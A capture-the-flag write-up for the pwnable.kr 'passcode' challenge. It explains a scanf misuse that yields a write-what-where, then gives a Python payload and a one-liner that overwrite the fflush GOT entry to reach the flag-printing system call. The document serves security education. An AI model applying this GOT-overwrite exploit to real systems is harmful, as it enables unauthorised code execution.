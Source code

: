 # PASSCODE
This is the 5th challenge @ `pwnable.kr`
Let's Start!

In this challenge we get the source code of the binary.

## Source Code
Let's take a look at the source code:
```C
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

There is 2 vulnerabilities in the code (both are in the usage of the `scanf` function).
## Vulnerabilities + `scanf` usage
The `scanf` function allowing receiving  a string from the user, parse it to another type and save it to a variable.
For example, to get the age of someone:
```C
int age;
scanf("%d", &age);
```
- The user types an integer (e.g., `25`) and presses Enter.
- `scanf` stores this value in the memory location of `age`.
Nice, now let's take a look on the vulnerabilities:
### `maximum field width` - one byte (zero) buffer overflow
The first one (which is not helpful in our case) is a one byte buffer overflow in the `welcome` function.
```C
char name[100];
scanf("%100s", name);
```
We can look up the usage for the `scanf` function:
*An optional decimal integer which specifies the `maximum field width`. Reading of characters stops either when this maximum is reached or when a nonmatching character is found (space or null byte), whichever happens first. The maximum field width does not include this terminator.*
The buffer size needs to be `101` bytes long, and not `100` so it will be able to contain the additional null byte.
### pass by value vulnerability 
The second vulnerability is the other `scanf` usage:
```c
scanf("%d", passcode1);
```
Looks like the program forgot to use `&` to specify the pointer to `passcode1`! instead the program is passing the UNINITIALIZED value of `passcode1` into `scanf`. because the `scanf` function will write the input to the memory address - we might have a `Write-What-Where` gadget!
BTW. The right usage is:
```c
scanf("%d", &passcode1);
```
## Exploit!
Let's open the program in `GDB`, and disassemble `login`.
```sh
disass login
```
Let's check where the `passcode1` value is on the stack:
```sh
0x0804857c <+24>:	mov    -0x10(%ebp),%edx # this is passcode1 !
0x0804857f <+27>:	mov    %edx,0x4(%esp)
0x08048583 <+31>:	mov    %eax,(%esp)
0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
```
Looks like it is @ `$ebp-16` (`passcode2` is @ `$ebp-12`).
Let's add a break-point and run the program with the maximum input we can use:
```sh
break login
r
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Let's check the stack (starting from `passcode1`):
```sh
x/16x $ebp-16
# 0xffffd068:	0x61616161	0xaaad4e00	0x080486a0	0xf7ffcb80
# 0xffffd078:	0xffffd098	0x08048684	0x080487f0	0x00000000
```
Wait. Looks like our input is right on the spot! We can control the `passcode1` value with our last 4 bytes of our input!
Because the `pasccode1` variable is not initialized, our first input is writing to it!
we got the `WRITE-WHAT-WHERE` primitive! Amazing!
Let's use it to jump to part of function which is printing the flag.

### Global Offset Table - `GOT`
Every dynamically-linked binary need to load the libraries at runtime. Therefore it must contain something to map the functions it is using to an actual address - and that is the `Global Offset Table`.
Basically if the attacker is changing the offset of one of the function at the table, anytime the function will be called, it will go to the new specified address.

With our `Write-What-Where` gadget, we can change the offset of a function!
But let's first check where we want to jump.
Once again, let's disassemble `login`.
```sh
disass login
```
I decided to jump to `0x080485de`, which is just above the `system` call:
```
0x080485de <+122>:	call   0x8048450 <puts@plt>
0x080485e3 <+127>:	movl   $0x80487af,(%esp)
0x080485ea <+134>:	call   0x8048460 <system@plt>
```
Nice, let's see what dynamically loaded functions are being called in the binary.
- `printf`
- `scanf`
- `fflush`
Let's get those addresses from the `GOT`:
```sh
readelf -r passcode
#  Offset     Info    Type            Sym.Value  Sym. Name
# 0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
# 0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
# 0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
# 0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
# 0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
# 0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
# 0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
# 0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
# 0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

| function name | address      |
| ------------- | ------------ |
| `printf`      | `0x0804a000` |
| `scanf`       | `0x0804a020` |
| `fflush`      | `0x0804a004` |
Remember that our input can't contain any null bytes (`\x00`) or any spaces (`\x20`).
the `printf` contains a null byte, and the `scanf` contains a space. which leaving us with the `fflush` function.
Let's build the exploit!

## Building the exploit
let's look on what we have:
- the last 4 bytes will be the value of `passcode1`
- `passcode1` is the address we want to re-write (because of the miss-usage with `scanf`)
- the call to `scanf` allowing us to write any 4 bytes to `passcode1` (which we control)
We can use it to change the offset of the `fflush` function in the `GOT`, to the address of system.
and that is it.
The payload should look something like this:
```python
payload = ''
payload += 'a'*96 # filler
payload += '\x04\xa0\x04\x08' # fflush address -> 0x0804a004
payload += '\n' # new line to end the `scanf`
payload += '134514142' # the decimal value of 0x080485de (right before the call to system)
payload += '\n' # new line to end the `scanf`
payload += '10' # just to fill passcode2
payload += '\n' # new line to end the `scanf`
```
and the one-liner exploit:
```bash
python -c "print 'a'*96+'\x04\xa0\x04\x08'+'\n134514142\n10\n'" | ./passcode
# Toddler's Secure Login System 1.0 beta.
# enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
# enter passcode1 : ���$�{������U�T$�$������$������}��(
# Sorry mom.. I got confused about scanf usage :(
# Now I can safely trust you that you have credential :)
```
Flag -> `Sorry mom.. I got confused about scanf usage :(`.
Happy Hacking!